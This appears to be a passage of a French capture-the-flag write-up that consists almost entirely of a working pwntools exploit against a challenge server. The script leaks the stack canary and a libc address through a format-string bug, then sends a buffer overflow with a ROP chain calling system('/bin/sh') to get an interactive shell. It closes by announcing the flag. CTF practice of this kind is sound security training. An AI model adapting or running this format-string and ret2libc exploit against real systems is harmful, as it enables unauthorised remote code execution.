 ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")

libc = ELF('./libc6_2.28-10deb10u1_amd64.so')

url  = 'warzone.hackrocks.com'
port = 7772

def Get_proc():	return connect(url,port)

def Leak_addr(all_leak,proc):
	proc.recvuntil(b'tell me, what did you see?:')
	payload = ''
	for leak in all_leak:
		payload += f'%{leak}$p.'
	proc.sendline(bytes(payload[:-1],'utf-8'))
	proc.recvline()
	res = proc.recvline().decode().split(' ')[1]
	return res.split('.')

proc = Get_proc()

offset_canary = 49
offset__libc_start_main_ret = 51

canary , libc_leak = Leak_addr([offset_canary,offset__libc_start_main_ret],proc)

libc.address = int(libc_leak,16) - 0x2409b

print('Canary : '+hex(int(canary,16)))
print('Libc   : '+hex(libc.address))

rop = ROP(libc)
pop_rdi    = rop.find_gadget(['pop rdi', 'ret'])[0]
ret        = rop.find_gadget(['ret'])[0]

payload = b''
payload += b'A'*(8*39)
payload += p64(int(canary,16))
payload += b'B'*8
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(ret)
payload += p64(libc.sym['system'])

proc.sendline(payload)
proc.interactive()
```

Maintenant On a le Flag !

![Alt text](./img/flag.png)
